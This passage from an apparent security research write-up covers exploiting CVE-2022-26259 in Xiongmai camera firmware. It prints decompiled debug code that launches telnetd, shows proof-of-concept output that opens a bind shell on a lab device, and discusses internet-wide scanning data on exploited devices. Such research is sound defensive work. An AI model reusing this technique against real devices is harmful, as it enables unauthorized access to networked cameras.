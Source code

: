 without Leech’s gadget being present, things get a little tough.\\n\\nNot to say there is no solution. For example, our new Sunba using V4.03R11.C6380202 doesn’t have the \`r9\` to \`r0\` primitive, but it does have the following debug code that will pop open \`telnetd\`. The debug function takes no parameters, so all we have to do is jump there.\\n\\n\\n\`\`\`c\\nundefined4 UndefinedFunction\_003f187c(void)\\n{\\n FILE \*\_\_stream;\\n int \*piVar1;\\n char \*pcVar2;\\n undefined4 uVar3;\\n\\n memcpy(&stack0x0000000c,"telnetd",8);\\n sprintf(&stack0x00000018,"%s %X",&stack0x0000000c);\\n \_\_stream = popen(&stack0x00000018,"r");\\n if (\_\_stream == (FILE \*)0x0) {\\n piVar1 = \_\_errno\_location();\\n pcVar2 = strerror(\*piVar1);\\n printf("\\x1b\[34mDebug R: Open Failed: %s!\\n\\x1b\[0m",pcVar2);\\n uVar3 = 0xffffffff;\\n }\\n else {\\n pclose(\_\_stream);\\n FUN\_003f1588();\\n uVar3 = 0;\\n }\\n return uVar3;\\n}\\n\`\`\`\\n\\nThis function actually shows another Xiongmai curiosity. See the weird \`%X\` after \`telnetd\` in the \`sprintf\` call? This is to accommodate an alteration this firmware version has in busybox. The updated busybox will check for a special value on the command line when \`telnetd\` is invoked. If the correct value isn’t present then \`telnetd\` won’t start. Presumably, this is an attempt by Xiongmai to stop the \`telnetd\`-based attacks that have plagued their devices. Fortunately for us, this function (which is very poorly decompiled by Ghidra) will calculate the value for us.\\n\\nHere is the output for a proof of concept we wrote that opens telnet using this function.\\n\\n\`\`\`\\nalbinolobster@mournland:~/initial-access/feed/cve-2022-26259$ telnet 10.12.70.218\\nTrying 10.12.70.218...\\ntelnet: Unable to connect to remote host: Connection refused\\nalbinolobster@mournland:~/initial-access/feed/cve-2022-26259$ ./build/cve-2022-26259-linux\_arm64 -e -rhost 10.12.70.218\\n\[+\] Sending a bind shell for port 23\\n\[+\] Connecting to 10.12.70.218:554\\n\[+\] Connected to 10.12.70.218:23!\\n\[+\] Done!\\nalbinolobster@mournland:~/initial-access/feed/cve-2022-26259$ telnet 10.12.70.218\\nTrying 10.12.70.218...\\nConnected to 10.12.70.218.\\nEscape character is '^\]'.\\nLogin incorrect\\nLocalHost login:\\n\`\`\`\\n\\nThis \`telnetd\` debug logic doesn’t appear to be available in all affected systems. Which means, as Leech indicated in his write up, exploitation of CVE-2022-26259 in the wild is going to be a little messy. Different firmware will require different exploitation methods. Attackers will need to figure out a version fingerprinting method, or just be patient as the box reboots 2 minutes after every crash.\\n\\n## Scale of Xiongmai Exploitation\\n\\nAlthough we haven’t touched on all of these, we know \[CVE-2017-7577\](https://viz.greynoise.io/query/?gnql=raw\_data.web.paths%3A%22%2F..%2F..%2F..%2F..%2F..%2Fmnt%2Fmtd%2FConfig%2FAccount1%22), \[CVE-2020-22253\](https://viz.greynoise.io/tag/hisilicon-backdoor-access-attempt?days=30), \[CVE-2021-41506\](https://www.shodan.io/search?query=port%3A9527+%2B%22%27+is+not+a+command.%22), and CVE-2022-45045 are all being actively targeted \*right now\*. We can verify that via Greynoise, Shodan, or our own honeypots. The question is, “At what scale?”\\n\\nIt’s a difficult question to answer. But we can get some ideas. In \[Troy Mursch’s\](https://scholar.google.com/citations?user=I35Lgl4AAAAJ&hl=en), “Identifying infected energy systems in the wild”, Troy cross referenced known malicious endpoints (from Greynoise, honeypots, and IP blocklists) against a Censys scan of ICS endpoints. The overlapping IP addresses, Mursch theorized, are infected/malicious ICS systems. The general idea is that when these systems are recruited into a botnet, they themselves will start recruiting others and eventually end up in a malicious endpoint list.\\n\\nWe can do something similar. I grabbed the IP addresses of 200,000 Xiongmai devices from Shodan and cross referenced them against the \[FireHOL\](https://iplists.firehol.org/) blocklists (with all netblocks removed because that seemed overly broad). Now, FireHOL isn’t perfect. In fact, some of the aggregated lists are incredibly old. But some are updated daily. IP blocklists are also notorious for false positives. But the goal is not to be perfect, but to merely get an idea of how many Xiongmai endpoints are considered malicious.\\n\\nThe cross reference generated the